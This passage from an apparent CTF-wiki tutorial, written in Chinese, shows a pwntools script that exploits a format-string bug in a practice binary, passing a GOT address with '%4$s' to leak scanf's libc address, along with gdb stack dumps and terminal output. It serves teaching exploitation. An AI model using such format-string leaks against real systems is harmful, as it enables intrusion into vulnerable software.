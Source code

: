 ```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()

```

其中，我們使用gdb.attach(sh)來進行調試。當我們運行到第二個printf函數的時候(記得下斷點)，可以看到我們的第四個參數確實指向我們的scanf的地址，這裏輸出

```python
 → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x000000c2
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp	 ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000

```

同時，在我們運行的terminal下

```python
➜  leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```
